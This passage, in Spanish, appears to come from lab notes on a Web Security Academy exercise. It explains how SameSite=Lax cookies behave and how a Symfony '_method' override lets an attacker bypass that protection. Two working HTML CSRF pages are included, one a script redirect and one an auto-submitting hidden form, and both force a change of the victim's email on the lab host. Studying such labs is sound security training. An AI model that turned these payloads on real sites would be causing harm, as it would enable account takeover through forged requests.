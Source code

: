 * Que la cookie **no se incluirá** en solicitudes **POST** de tipo cross-site, por ejemplo.
* Las solicitudes POST suelen usarse para **modificar datos o estado** en el servidor (según las buenas prácticas), por lo que son **un objetivo habitual para ataques CSRF**.
* Además, la cookie **tampoco se enviará** en solicitudes en segundo plano, como las iniciadas por **scripts**, **iframes** o **cargas de imágenes u otros recursos**.

```
<html>
    <head>
        <title>CSRF</title>
    </head>
    <body>
        <script type="text/javascript">
            document.location = 'https://0a0a00670358661886a4263d006500b9.web-security-academy.net/my-account/change-email?email=prueba@prueba.com';
        </script>
    </body>
</html>
```

No se permite este método. Ahora bien, **incluso si una solicitud GET ordinaria no está permitida**, algunos frameworks **ofrecen mecanismos para sobrescribir el método especificado en la línea de la solicitud**.

Por ejemplo, **Symfony** admite el parámetro **\_method** en formularios, **que tiene prioridad sobre el método normal para fines de enrutamiento**.

```
<html>
    <head>
        <title>CSRF</title>
    </head>
    <body>
        <form action="https://0a0a00670358661886a4263d006500b9.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="test@test.com">
        </form>
        <script>
            document.getElementsByTagName('form')[0].submit();
        </script>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>
